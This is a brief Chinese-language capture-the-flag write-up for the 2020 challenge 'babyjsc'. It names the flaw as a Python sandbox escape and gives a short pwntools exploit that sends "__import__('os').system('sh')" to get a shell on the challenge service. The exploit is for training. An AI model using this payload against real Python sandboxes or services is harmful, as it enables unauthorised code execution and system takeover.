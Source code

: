 # babyjsc

## 来源
2020 - 国赛


## 难度

1 / 10

## 简单描述

使用Python模拟的终端, 先输入大小, 然后jsc数据执行jsc数据.

## vul

使用python 模拟的终端



## 知识点

python sanbox escape

## 思路

python 沙箱逃逸



## EXP

```
from pwn import *
sh = remote('0.0.0.0', 0)
p = "__import__('os').system('sh')"
sh.sendline(len(p))
sh.sendline(p)
sh.interactive()
```







